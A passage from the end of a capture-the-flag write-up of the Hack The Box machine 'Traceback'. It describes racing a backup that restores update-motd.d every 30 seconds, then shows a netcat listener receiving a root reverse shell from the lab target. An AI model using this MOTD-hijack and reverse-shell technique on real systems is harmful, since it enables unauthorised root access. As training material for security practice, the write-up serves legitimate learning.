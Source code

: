 The processes reveal that the update-motd.d folder is being overwritten by its backup every 30 seconds.

This means that we need to get the MOTD scripts executed before it's overwritten. Speed matters.

We repeat the steps above, this time minimizing the time between the file edit and a new login.

```
root@kali:~/htb/traceback# nc -nvlp 9999
listening on [any] 9999 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.181] 50418
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
And it's done.

## Ending Thoughts

This is an interesting box that requires two applications of privilege escalation tactics.

This box has already been exploited so it's really about post-exploitation tactics. The OSINT is a nice touch too.

If you follow the breadcrumbs and are thorough, this is an easy and enjoyable box.
